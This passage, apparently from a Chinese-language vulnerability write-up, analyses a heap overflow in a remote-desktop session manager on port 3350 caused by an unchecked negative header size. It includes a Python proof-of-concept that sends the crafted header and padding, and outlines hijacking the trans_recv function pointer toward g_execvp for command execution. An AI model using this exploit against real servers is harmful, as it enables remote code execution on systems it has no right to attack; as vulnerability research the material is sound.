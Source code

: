   
如果创建的类型不为 TRANS_TYPE_LISTENER ，那么该连接就会调用 self->trans_recv 将数据直接读进刚刚创建的输入缓冲区中，且由于它并没有校验 self->header_size 可能是负数的情况，因此可以令 to_read 通过负数减去一个正数溢出为一个极大的正数，从而导致堆溢出。  
  
  
POC：  
```
import socket
import struct
if __name__ == "__main__":
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("127.0.0.1",3350))
    sdata = b''
    sdata += struct.pack("I",0x2222CCCC) #version
    sdata += struct.pack(">I",0x80000000) #headersize
    s.send(sdata)
    sdata = b'a'*0x10000  #padding
    s.send(sdata)
```  
##   
##   
```
```  
  
  
回顾一下刚刚的 trans_create 可以发现：  
```
struct trans *
trans_create(int mode, int in_size, int out_size)
{
    struct trans *self = (struct trans *) NULL;
 
    self = (struct trans *) g_malloc(sizeof(struct trans), 1);
    ......
        self->trans_recv = trans_tcp_recv;
        self->trans_send = trans_tcp_send;
        self->trans_can_recv = trans_tcp_can_recv;
    return self;
}
```  
  
  
struct trans self 结构体与输入输出缓冲区同样位于堆内存中，并且它还初始化了函数指针，那么一个可行的利用点就是：通过堆溢出去覆盖 self->trans_recv 偏移处的值为一个类似 system 的函数来进行任意命令执行。  
  
  
通过 IDA 搜索可以找到如下两个函数：  
```
extern:00000000004105D8                 extrn g_execvp:near
extern:0000000000410658                 extrn g_execlp3:near
```  
  
  
这两个命令分别是 execvp 和 execlp 的包装，函数实现如下：  
```
int
g_execvp(const char *p1, char *args[])
{
    ......
    args_len = 0;
    while (args[args_len] != NULL)
    {
        args_len++;
    }
    g_strnjoin(args_str, ARGS_STR_LEN, " ", (const char **) args, args_len);
 
    g_rm_temp_dir();
    rv = execvp(p1, args);
    ......
}
```